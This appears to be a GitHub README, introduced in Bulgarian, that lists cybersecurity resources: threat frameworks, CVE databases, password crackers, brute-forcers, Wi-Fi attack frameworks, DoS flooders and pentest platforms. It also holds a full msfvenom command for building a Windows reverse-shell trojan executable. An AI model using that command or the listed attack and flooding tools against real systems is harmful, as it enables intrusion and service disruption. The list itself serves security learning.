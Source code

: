 # Introduction to Cyber Security

"Introduction to Cyber Security" базови познания в сферата на киберсигурността. 

---------------------------------------------------------------

## Frameworks for Recording Threat Actions

- [ATT&CK Matrix for Enterprise](https://attack.mitre.org/) - MITRE ATT&CK® is a globally accessible knowledge base of adversary tactics and techniques based on real-world observations. The ATT&CK knowledge base is used as a foundation for developing specific threat models and methodologies in the private sector, government, and cybersecurity product and service community.

---------------------------------------------------------------

## IDS / IPS (Intrusion Detection System / Intrusion Prevention System)

- [Snort](https://www.snort.org/) - Snort is an Open Source Intrusion Prevention System (IPS). Snort IPS uses a series of rules that help define malicious network activity, which is used to find packets that match against them and generate alerts for users. Snort can be deployed to stop these packets, as well. Snort has three primary uses: As a packet sniffer like tcpdump and as a packet logger, which is helpful for network traffic debugging and can be used as a full-blown network intrusion prevention system.
- [Live Cyber Threat Map](https://threatmap.checkpoint.com/) - a real-time map of the computer security attacks occurring at any given time.

---------------------------------------------------------------

## Vulnerabilities `CVE-YEAR OF DISCOVERY-ID`

- [CVE Org](https://www.cve.org/) - Identify, define, and catalog publicly disclosed cybersecurity vulnerabilities
- [ExploitDB](https://www.exploit-db.com/) - Search for Vulnerabilities
- [National Vulnerability Database](https://nvd.nist.gov/) - U.S. government repository of standards-based vulnerability management data represented using the Security Content Automation Protocol (SCAP). This data enables automation of vulnerability management, security measurement, and compliance. The NVD includes databases of security checklist references, security-related software flaws, product names, and impact metrics.
- [CVE Details](https://www.cvedetails.com/) - a complete CVE database enhanced with additional information, including advisories, exploits, tools, source code changes, etc.
- [Publicly Available Penetration Testing Reports](https://github.com/juliocesarfort/public-pentesting-reports) - A repository containing public penetration test reports published by consulting firms and academic security groups.

---------------------------------------------------------------

## Hacking Tools 
- [Responder](https://github.com/SpiderLabs/Responder) - Responder is an open-source tool primarily used for NetBIOS and LLMNR poisoning attacks. NetBIOS (Network Basic Input/Output System) and LLMNR (Link-Local Multicast Name Resolution) facilitate communication between devices on a local network.
- [John the Ripper](https://github.com/openwall/john) - John the Ripper is a fast password cracker, currently available for many flavors of Unix, macOS, Windows, DOS, BeOS, and OpenVMS (the latter requires a contributed patch). Its primary purpose is to detect weak Unix passwords. Besides several crypt(3) password hash types most commonly found on various Unix flavors, supported out of the box are Kerberos/AFS and Windows LM hashes, as well as DES-based tripcodes, plus hundreds of additional hashes and ciphers in "-jumbo" versions.
- [Zero Days Marketplace](https://0day.today/) - Zero Day Vulnerabilities. Zero Day means that they are brand new, and there
is not a fix or patch for them.
- [The Social-Engineer Toolkit (SET)](https://github.com/trustedsec/social-engineer-toolkit) - The Social-Engineer Toolkit is an open-source penetration testing framework designed for social engineering. SET has several custom attack vectors that allow you to make a believable attack quickly. SET is a product of TrustedSec, LLC – an information security consulting firm located in Cleveland, Ohio.
- [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) - LinPEAS is a script that searches for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.

---------------------------------------------------------------

## Brute Forcing Attacks

- [Hydra](https://github.com/vanhauser-thc/thc-hydra) - Hydra (or THC Hydra) is a parallelized network login cracker built in various operating systems like Kali Linux
- [Burp Intruder](https://portswigger.net/burp/pro) - Burp Intruder is a tool for automating customized attacks against web applications.
- [Medusa](https://github.com/jmk-foofus/medusa) - Medusa is a speedy, parallel, and modular login brute-forcer. The goal is to support as many services that allow remote authentication as possible.

---------------------------------------------------------------


## Frameworks to Perform Wi-Fi Attacks

- [Airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon) - This is a multi-use bash script for Linux systems to audit wireless networks.
- [WiFiPhisher](https://github.com/wifiphisher/wifiphisher) - Wifiphisher is a rogue Access Point framework for conducting red team engagements or Wi-Fi security testing. Using Wifiphisher, penetration testers can quickly achieve a man-in-the-middle position against wireless clients by performing targeted Wi-Fi association attacks.
- [WiFi Exploitation Framework](https://github.com/D3Ext/WEF) - This is an entirely offensive framework for auditing Wi-Fi networks with different types of attacks for WPA/WPA2, WPS, and WEP, automated handshake cracking, and much more.

---------------------------------------------------------------

## DoS Tools - Denial of Service (DOS)

- [Low Orbit Ion Cannon](https://github.com/NewEraCracker/LOIC) - Low Orbit Ion Cannon (LOIC) is an open-source network stress tool written in C# (TCP, UDP, HTTP GET FLOODS).
- [High Orbit Ion Cannon](https://sourceforge.net/projects/highorbitioncannon/) - HTTP GET / POST requests
- [hping3](https://www.kali.org/tools/hping3/) - hping3 is a network tool that sends custom ICMP/UDP/TCP packets and displays target replies like ping does with ICMP replies. It handles fragmentation and arbitrary packet body and size and can transfer files under supported protocols. Using hping3, you can test firewall rules, perform (spoofed) port scanning, test network performance using different protocols, do path MTU discovery, perform traceroute-like actions under different protocols, fingerprint remote operating systems, audit TCP/IP stacks, etc. hping3 is scriptable using the Tcl language.
- [Tors Hammer](https://github.com/Karlheinzniebuhr/torshammer) - As the name suggests, the tool can perform attacks inside the Tor network. By default, Tor's Hammer operates on level 7 of the OSI Model and attacks the whole TCP stack. The way it works is simple. The tool opens multiple dead connections and, thus, hangs the application since it cannot return results. However, instead of a crushing action like the literal Thor hammer, it is specialized for anonymous attacks. The tool is built in a way that uses anonymity as leverage to evade firewalls and security mitigations. Pen testers also use it for demo attacks on security structures. This tool has a downside. However, the primary network (Tor) is usually very slow. This speed limit automatically limits how effective these tools can be.

---------------------------------------------------------------

## Generate Trojan for Reverse Shell Callback

- [Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/msfvenom/) - Msfvenom enables you to generate custom payloads for specific targets. The tool was created by combining two previous Metasploit tools—msfencode and msfpayload. Msfvenom can help get past the security of a target protected by a firewall or an antivirus. `msfvenom –p windows/x64/shell/reverse_tcp LHOST=IP LPORT=PORT –f exe –o file.exe`

---------------------------------------------------------------

## Security Tools

- [OpenVPN](https://openvpn.net/) Virtual Private Network - Infrastructure that allows machines to connect in
a secure way
- [Tor Network](https://www.torproject.org/) This network is used for anonymity online
- [JWT Token](https://jwt.io/) JSON Web Token - Used for authorization in web apps. It relies on a secret to validate its signature. JWT token is instantiated upon a valid login
- [Hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) - Applied algorithm to "obfuscate" a secret

---------------------------------------------------------------

## Penetration Testing Tools

- [Nessus](https://www.tenable.com/products/nessus) - Nessus is vulnerability scanning solution
- [Nmap](https://nmap.org/) - Nmap ("Network Mapper") is a free and open-source utility for network discovery and security auditing. 
- [BurpSuite](https://portswigger.net/burp) - The class-leading vulnerability scanning, penetration testing, and web app security platform.
- [Searchsploit](https://www.exploit-db.com/searchsploit) - Searchsploit is a command line search tool for Exploit-DB that allows you to take a copy of Exploit Database anywhere you go.

---------------------------------------------------------------

## Penetration Testing Operational Systems

- [Kali Linux](https://www.kali.org/)
- [Parrot OS](https://www.parrotsec.org/)
- [Black Arch](https://blackarch.org/)
- [CommandoVM](https://github.com/mandiant/commando-vm)

---------------------------------------------------------------

## Practice Pentesting Legally

- [TryHackMe](https://tryhackme.com/)
- [Vulnhub](https://www.vulnhub.com/)
- [HackTheBox](https://www.hackthebox.com/)

---------------------------------------------------------------

## Example of interesting ports:

- 22 / SSH
- 80 / HTTP
- 443 / HTTPS
- 389 / LDAP

---------------------------------------------------------------

## Example of exciting commands:

- How to Check What Ports are Opened on Your PC
  - Windows:
    - `netstat –an`
    - `netstat –antb`
  - Linux:
    - `ss –nltp`
    - `netstat –tulpn`


